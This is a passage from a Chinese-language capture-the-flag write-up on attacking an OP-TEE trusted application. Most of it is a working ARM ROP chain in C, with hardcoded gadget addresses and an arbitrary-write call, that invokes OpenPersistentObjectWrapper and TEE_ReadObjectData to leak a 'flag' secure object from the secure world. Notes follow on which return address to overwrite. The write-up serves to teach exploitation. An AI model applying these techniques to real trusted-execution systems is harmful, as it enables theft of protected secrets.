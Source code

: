 根据hint，flag存在id为flag的secure object中，但是该结构存于SW无法直接通过NW去访问。所以我们要在ROP中调用`OpenPersistentObjectWrapper`和`TEE_ReadObjectDat`将flag的secure object读入CA传入的参数映射区域，就能通过本地的变量读到flag。

> [!caution]
>
> 由于我们需要把flag传回CA，故将flag读入input的缓冲区，也就是传ROP的buffer，故input的参数类型需要设置为`TEEC_MEMREF_TEMP_INOUT`。

## ROP

最终ROP如下：

```c
    uint32_t ret_addr = 0x14c664; //0x0014c5f4;
    uint32_t gadget = 0x00118F84; // POP {R0-R3}; POP {R12,PC}
    uint32_t OpenPersistentObjectWrapper = 0x00117618;
    uint32_t TEE_ReadObjectData = 0x0011C95C;
    uint32_t buf = 0x14c800;
    uint32_t input_addr = 0x200860;
    uint32_t rop[0x100] = { 0, };

    size_t i = 0;
    rop[i++] = gadget;
    rop[i++] = ret_addr+9*4;    // r0: TEE_ObjectHandle *object
    rop[i++] = buf;             // r1: const char *obj_id = "flag"
    rop[i++] = 4;               // r2: size_t obj_id_sz
    rop[i++] = 1;               // r3: uint32_t obj_data_flag = TEE_DATA_FLAG_ACCESS_READ
    rop[i++] = 0;               // r12
    rop[i++] = OpenPersistentObjectWrapper+4+1;
    rop[i++] = 0xdeadbeef;      // r7

    rop[i++] = gadget;
    rop[i++] = 0;               // r0: TEE_ObjectHandle object
    rop[i++] = input_addr;      // r1: void *buffer
    rop[i++] = 0x40;            // r2: uint32_t size
    rop[i++] = buf + 8;         // r3: uint32_t *count
    rop[i++] = 0;               // r12
    rop[i++] = TEE_ReadObjectData+8+1;
    rop[i++] = 0xdeadbeef;      // r7

    //memset((char *)&rop[i], '\xaa', (0x100-i)*4);
    memcpy((char *)&rop[0x67], "flag\x00", 5); // buf
    abwrite(&sess, ret_addr, rop, 0x100*4);
    //hex_dump(rop, 0x100);
    puts((char *)rop);
```

在ROP过程中可能会遇到几个问题：

### ROP起始地址

一是上一节提到的，如果覆盖`run_code`函数的返回地址`0x0014c5f4`，ROP往下会覆盖到`context`导致rop被截断，因此我们选择覆盖`run_code_cmd`的返回地址`0x14c664`。
